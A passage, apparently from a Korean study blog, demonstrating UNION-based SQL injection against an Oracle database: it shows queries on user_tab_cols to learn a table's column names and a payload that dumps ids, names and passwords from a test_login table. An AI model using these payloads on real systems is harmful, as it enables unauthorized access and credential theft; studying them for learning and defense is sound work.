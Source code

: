 * 이렇게 뚫리면 오라클 DB란 의미
  * 여러 dictionary들을 알 수 있게됨
* 테이블의 이름을 알 수 있는 쿼리

```sql
select column_name from user_tab_cols where table_name='TEST_LOGIN';
```

* **특정 테이블의 컬럼명 얻는 SQL Injection**

```sql
' UNION SELECT column_name,data_type,'0','0','0' FROM user_tab_cols WHERE table_name='TEST_LOGIN' ---
```

![07](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/07.png?raw=true)

* **레코드 검색 SQL Injection**

```sql
' UNION SELECT id,name,pass,'0','0' FROM test_login --
```

![08](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/08.png?raw=true)
